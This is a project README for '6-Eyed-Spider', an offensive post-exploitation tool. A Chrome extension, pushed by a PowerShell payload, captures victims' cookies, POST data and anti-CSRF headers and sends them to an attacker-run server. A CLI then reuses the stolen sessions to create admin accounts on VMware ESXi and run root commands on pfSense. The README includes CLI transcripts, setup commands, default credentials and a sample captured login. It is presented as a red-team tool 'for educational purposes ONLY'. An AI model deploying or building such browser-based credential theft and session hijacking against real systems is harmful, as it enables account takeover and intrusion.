 # 6-Eyed-Spider - Under development 
![logo](https://github.com/M507/6-Eyed-Spider/raw/master/Examples/spider-1.png)

### Abstract
This is a post-exploitation Red-Teaming tool. It gathers data going out and coming into the browser — data like POST requests, cookies, and chosen headers like (ANTI-CSRF headers), then sends all data to Strapi. Strapi and MongoDB store the data so that 6-Eyed-Spider-CLI can use the collected data to perform specific attacks. Attacks using the users' valid cookies to execute commands, create admin users, enable unsafe functionalities, manipulate data in systems like VMware, Pfsense, and PanOS. 

The tool takes advantage of how web applications usually are designed. No matter how many authentication steps a web application uses, there will be a weak point where if you know specific tokens, you will be able to interact with the application without the need for reauthenticating. The tool uses these specific tokens to perform critical tasks as authenticated users. It also deals with Anti-CSRF protection; thus, almost every request can be passed.

The tool consists of a couple of parts:
* Dockerized MongoDB and Strapi
  * MongoDB stores the collected data.
  * Strapi receives and manages the collected data.
* Google-Chrome Extention
  * Collects the browser's data from the blue team.
* 6-Eyed-Spider-CLI
  * Runs custom made plugins which make use of the collected data.

### Disclaimer
This Red-Team tool is used for educational purposes ONLY!

## Table of contents:
 * [Abstract](#abstract)
 * [Disclaimer](#disclaimer)
 * [How to](#how-to)
    * [Use 6-Eyed-Spider-CLI](#Use 6-Eyed-Spider-CLI)
    * [Install 6-Eyed-Spider](#install-6-eyed-spider)
    * [Run the server manually](#run-the-server-manually)
 * [Configure the admin panel and the API address from](#configure-the-admin-panel-and-the-api-address-from)
    * [Then with administrator privileges](#then-with-administrator-privileges)
    * [Clients:](#clients)
 * [6-Eyed-Spider-CLI Plugins](#6-eyed-spider-cli-plugins)
 * [Dependencies](#dependencies)
 * [Todos](#todos)

### How to:

#### Use 6-Eyed-Spider-CLI:
```sh
Welcome! Type ? to list commands
6-Eyed-Spider> ?

Documented commands (type help <topic>):
========================================
Add_ESXI_Admin           Print_all_ESXis_under_control     exit
ESXI_Enable_SSH          Print_all_pfSenses_under_control  help
Execute_pfSense_Command  Print_creds                     

6-Eyed-Spider> help Add_ESXI_Admin
Add admin user.
Usage: Add_ESXI_Admin <ESXI_IP> <USERNAME> <STRONG_PASSWORD> <Description>
Add_ESXI_Admin 192.168.1.10 BLACK_TEAM Liverpool!1!1! Description1
Add_ESXI_Admin 192.168.1.10 ADMIN Liverpool!1998 Description2

6-Eyed-Spider> help Execute_pfSense_Command
Enable SSH.
Usage: Execute_pfSense_Command <ESXI_IP> <Command>
Execute_pfSense_Command 192.168.1.10 id
Execute_pfSense_Command 192.168.1.10 whoami

6-Eyed-Spider> Execute_pfSense_Command 192.168.1.254 whoami

root 

6-Eyed-Spider> Print_all_pfSenses_under_control

https://192.168.1.254/
https://192.168.2.254/
https://192.168.3.254/
https://192.168.4.254/

6-Eyed-Spider>
```

#### Install 6-Eyed-Spider:
```sh
[M507:~]$ bash Install.sh
```
#### Run the server manually:
```sh
[M507:~]$ # Start the database
[M507:~]$ docker-compose -f docker-compose-db.yml up --build -d
[M507:~]$ # Wait 20 seconds until its states changes to healthy 
[M507:~]$ watch docker-compose -f docker-compose-db.yml ps
[M507:~]$ # Insert db.dump into the database, using this command
[M507:~]$ docker exec -i strapi-docker_db_1 sh -c 'mongorestore --archive'< RedAdmin.dmup
[M507:~]$ # Start the Strapi
[M507:~]$ docker-compose -f docker-compose-main.yml up --build -d
```
Or run Run.sh, which executes the same commands above.
```sh
[M507:~]$ bash Run.sh
```
###  Configure the admin panel and the API address from:
```sh
[M507:~]$ cat ./strapi-app/config/environments/development/server.json
{
  "host": "localhost",
  "port": 1337,
  "proxy": {
   "enabled": false
  },
  "autoReload": {
    "enabled": true
  },
  "cron": {
    "enabled": false
  },
  "admin": {
    "autoOpen": false
  }
}
```

Info ☄️  Default Admin panel: http://localhost:1337/admin
Info ⚡️ Default Server: http://localhost:1337

#### Then with administrator privileges:
Default credentials: admin:RedAdmin
* Insert all the targeted domains into: http://127.0.0.1:1337/Domains
* Insert all the targeted headers into: http://127.0.0.1:1337/Headers
* http://127.0.0.1:1337/Posts receives data from the public without any privileges.
* /Posts receives: IP (String),ID (String), Site (String), and Data (Json), Type (String). Type: either "Cookie", "Header", or "Form".
An example:
```html
{
    "IP": "192.168.1.2",
    "ID": 31231,
    "Site": "https://aavtrain.com/index.asp",
    "Data": {
        "Submit": "Submit",
        "login": "true",
        "password": "MYPASSWORD",
        "user_name": "admin"
    },
    "Type": "Cookies"
}
```

#### Clients:
```sh
Microsoft Windows [Version 10.0.17763.503]
(c) 2030 Microsoft Corporation. All rights reserved.

C:\Users\Mohad> .\New-ChromeExtension.ps1 (Powershell Payload attached). 
```


### 6-Eyed-Spider-CLI Plugins:
6-Eyed-Spider-CLI runs customized plugins that make use of the valid collected data from the API. 
+ VMware
    + Add an administrator
    + Start SSH
+ Pfsense
    + Add an administrator
    + Execute a command

### Dependencies
+ Docker-compose

### Todos

- Firefox extension configures itself based on the data on /domains /headers.
- Firefox extension sends All POST requests, cookies to /Posts as described above.
- New-FirefoxExtension.ps1
